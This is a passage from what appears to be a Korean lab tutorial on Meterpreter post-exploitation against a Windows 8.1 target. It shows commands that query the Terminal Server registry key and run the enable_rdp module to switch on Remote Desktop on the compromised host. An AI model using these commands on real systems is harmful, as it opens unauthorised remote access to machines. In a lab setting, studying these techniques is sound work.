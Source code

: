 ```
meterpreter> sysinfo
meterpreter> reg queryval -k "HKLM\\System\\CurrentControlSet\\Control\\Terminal Server" -v fDenyTSConnections
```

Data 값이 1로 나오는 것을 확인할 수 있다. 이는 타겟 시스템에서 원격 데스크탑 커넥션이 허용되지 않았다는 것이다.

그렇다면 Windows 8.1로 가서 '나의 컴퓨터에 원격 액세스 허용'을 설정해준다.

그리고 Kali에서도 Windows 8.1에서 원격 액세스를 허용하도록 설정해준다.

![17](./image5/Screenshot_2020-07-20_07-49-58.png)

```
meterpreter> run post/windows/manage/enable_rdp
meterpreter> run queryval -k "HKLM\\System\\CurrentControlSet\\Control\\Terminal Server" -v fDenyTSConnections
```

이제는 Data 값이 0으로 나오는 것을 확인할 수 있다. 
